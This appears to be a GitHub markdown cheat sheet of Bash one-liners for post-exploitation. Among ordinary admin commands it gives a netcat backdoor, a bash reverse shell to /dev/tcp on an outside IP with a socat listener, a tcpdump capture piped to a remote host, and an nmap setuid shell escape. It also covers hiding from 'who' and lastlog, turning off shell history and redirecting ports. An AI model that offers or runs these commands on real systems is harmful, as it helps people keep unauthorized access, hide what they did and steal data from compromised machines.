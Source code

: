 # Bash Commands for Post Exploitation

One liners
-----------

**Resolve a list of hostnames to IP addresses**
```bash
awk < hostnames.txt '{ system("resolveip -s " $1) }'
```

**IIS 6.0 IP Disclosure**
```bash
curl -l -O -H "Host:" "example.com"
```

**Connect to SSL websites**
```bash
openssl s_client -connect example.com:443
```

**Convert base64 to text**
```bash
echo 'base64string' | base64 -d   (Use -D on OSX)
```

**Decode ASCII shellcode**
```bash
echo -e *shellcode hex string*   (may need to use -i to ignore bad chars)
```

**Enumerate DNS of Class C**
```bash
for ip in $(seq 1 254); do; host 10.1.1.$ip | grep "name pointer"; done
```

**SSH to box and hide from "who" and "lastlog"**
```bash
ssh andrew@10.1.1.1 -T /bin/bash
```

**Prevent terminal logging**
```bash
unset HISTFILE
```

**Add immutable attribute to a unix file**
```bash
chattr +i *file*
```

**SSH into host2 through host1**
```bash
ssh -o "proxycommand ssh -W host2 host1" host2
```

**Nmap setuid privesc**
```bash
nmap --script <(echo 'os.execute("/bin/sh")')
nmap --interactive     (for older versions)
```

**Transfer files through SSH**
```bash
ssh test@10.1.1.1 "cat test.tar.gz" > test.tar.gz
```

**Internal port redirect for bypassing services**
```bash 
iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-ports 4444
```

**Enable forwarding on the fly**
```bash
sysctl -w net.ipv4.ip_forward=1
```

**Kill with USR1 developer defined signal**
```bash
kill -USR1 <pid>
```

**Pull IP addresses from a file**
```bash
grep -E -o '[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}'
```

**Sniff traffic with tcpdump and send to remote tcp socket**
```bash
tcpdump -w - | nc -v 8.8.8.8 9999
```

**Recursively search for text contained in files within a directory**
```bash
zcat -rf ./* | grep "searchstring"
```

**Recursively search for files with the specified word within them**
*Submitted by cat on Google Fourms*
```bash
ls -a | find | grep -i "string"
```

**Netcat backdoor**
*Does not work with most distro's default version of netcat (most do not define ENABLE_GAPING_SECURITY_HOLE which turns on -e)*
```bash
nc -e /bin/bash *remotecomputer* *port*
OR
nc -e /bin/bash -lp *port*
```

**View CPU Information**
```bash
cat /proc/cpuinfo
```

**Bash reverse shell** (@icleus)

Works on all (recent) distributions where egress filtering is not in place / quite open, use this to reverse connect to your listening host.

```bash
bash -i>& /dev/tcp/123.123.123.123/1234 0>&1 &
```

I find this best works with a socat listener due to the readline support.

```bash
socat readline TCP-LISTEN:1234
```


Credits
-----------
Credits to @TheAndrewBalls for posting some awsome one liners (the hidden SSH example and the DNS enumeration are both his contributions)

